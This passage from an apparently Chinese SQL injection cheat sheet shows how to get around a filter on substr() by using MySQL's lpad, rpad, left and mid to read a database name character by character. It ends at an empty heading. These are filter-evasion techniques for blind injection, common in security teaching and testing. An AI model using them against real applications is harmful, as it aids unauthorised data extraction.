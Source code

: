 ### 过滤substr绕过

#### 使用lpad/rpad绕过

```sql
select lpad((select database()),1,1)    // s
select lpad((select database()),2,1)    // se
select lpad((select database()),3,1)    // sec
select lpad((select database()),4,1)    // secu
select lpad((select database()),5,1)    // secur
select lpad((select database()),6,1)    // securi
select lpad((select database()),7,1)    // securit
select lpad((select database()),8,1)    // security

select rpad((select database()),1,1)    // s
select rpad((select database()),2,1)    // se
select rpad((select database()),3,1)    // sec
select rpad((select database()),4,1)    // secu
select rpad((select database()),5,1)    // secur
select rpad((select database()),6,1)    // securi
select rpad((select database()),7,1)    // securit
select rpad((select database()),8,1)    // security
```

lpad：函数语法：`lpad(str1,length,str2)`。其中str1是第一个字符串，length是结果字符串的长度，str2是一个填充字符串。如果str1的长度没有length那么长，则使用str2填充；如果str1的长度大于length，则截断。

#### 使用left绕过

```sql
select left((select database()),1)    // s
select left((select database()),2)    // se
select left((select database()),3)    // sec
select left((select database()),4)    // secu
select left((select database()),5)    // secur
select left((select database()),6)    // securi
select left((select database()),7)    // securit
select left((select database()),8)    // security
```

#### 使用mid绕过

mid()函数的使用就和substr()函数一样了：

```sql
select mid((select database()),1,1)    // s
select mid((select database()),2,1)    // e
select mid((select database()),3,1)    // c
select mid((select database()),4,1)    // u
select mid((select database()),5,1)    // r
```

#### 神奇的东西绕过
